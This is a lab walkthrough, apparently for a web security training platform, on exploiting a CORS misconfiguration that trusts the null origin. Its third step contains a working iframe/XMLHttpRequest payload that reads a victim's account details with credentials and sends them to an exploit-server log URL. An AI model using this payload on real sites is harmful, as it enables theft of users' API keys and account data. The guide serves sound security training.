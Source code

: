 # 🛡️ Lab Guide: CORS Vulnerability with Trusted Null Origin

This guide walks you through exploiting a **CORS vulnerability** where the server trusts the `null` origin, allowing unauthorized access to sensitive data like API keys. Using **Burp Suite**, you’ll craft an exploit to retrieve a victim’s API key. Let’s dive in! 🚀

---

## 📋 Objective
Exploit a CORS misconfiguration that trusts the `null` origin to retrieve the victim’s API key via a malicious script.

---

## 🛠️ Tools Needed
- **Burp Suite** (with Burp’s browser)
- **Repeater** module in Burp Suite
- **Exploit Server** (provided in the lab environment)
- Basic understanding of CORS and JavaScript payloads

---

## 📝 Step-by-Step Instructions

### 1️⃣ Log In and Capture the Request
- Ensure **Intercept** is off in Burp Suite.
- Use **Burp’s browser** to log in to your account and click **My Account**.
- In **Proxy > HTTP history**, locate the AJAX request to `/accountDetails`.
- Observe the **Access-Control-Allow-Credentials: true** header, suggesting CORS support.
- **Right-click** the request and select **Send to Repeater**.

### 2️⃣ Test for Null Origin Reflection
- In **Repeater**, add the header:
  ```
  Origin: null
  ```
- Resubmit the request and check the response.
- **Observation**: The response includes `Access-Control-Allow-Origin: null`, confirming the server trusts the `null` origin.

### 3️⃣ Craft the Exploit
- Navigate to the **Exploit Server** in the browser.
- Enter the following HTML, replacing `YOUR-LAB-ID` and `YOUR-EXPLOIT-SERVER-ID` with your lab-specific URLs:
  ```html
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a3100d404db72be80780356008700cc.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location='https://exploit-0a2e0056049e7273804f02c401bc0026.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
  </script>"></iframe> 
  ```
- **Note**: The sandboxed `iframe` generates a `null` origin request, bypassing CORS restrictions.

### 4️⃣ Test and Deliver the Exploit
- Click **View exploit** to verify the exploit works. You should land on the log page with the API key in the URL.
- Go back to the **Exploit Server** and click **Deliver exploit to victim**.
- Access the **Access log**, retrieve the victim’s API key, and submit it to complete the lab.